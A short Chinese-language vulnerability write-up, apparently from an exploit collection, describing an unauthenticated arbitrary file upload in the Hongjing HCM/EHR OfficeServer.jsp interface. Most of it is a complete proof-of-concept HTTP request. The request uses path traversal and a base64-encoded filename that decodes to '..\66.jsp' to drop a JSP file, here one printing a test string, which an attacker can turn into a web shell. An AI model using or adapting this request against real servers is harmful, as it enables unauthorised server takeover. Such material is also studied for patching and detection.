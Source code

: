 #### 影响范围

宏景HCM

#### 漏洞概述

宏景EHR OfficeServer.jsp接口处存在任意文件上传漏洞，未经过身份认证的远程攻击者可利用此漏洞上传任意文件，最终可导致服务器失陷

#### 漏洞复现

```
POST /w_selfservice/oauthservlet/%2e./.%2e/system/options/customreport/OfficeServer.jsp HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Connection: close
 
DBSTEP V3.0     351             0               666             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
FILETYPE=Li5cNjYuanNw
RECOR1DID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
 
<%out.println("bbbbbbbbbbbbbbb");%>
```

请求体中的FILETYPE字段是base64加密的上传文件名

```
Li5cNjYuanNw      ..\66.jsp
```



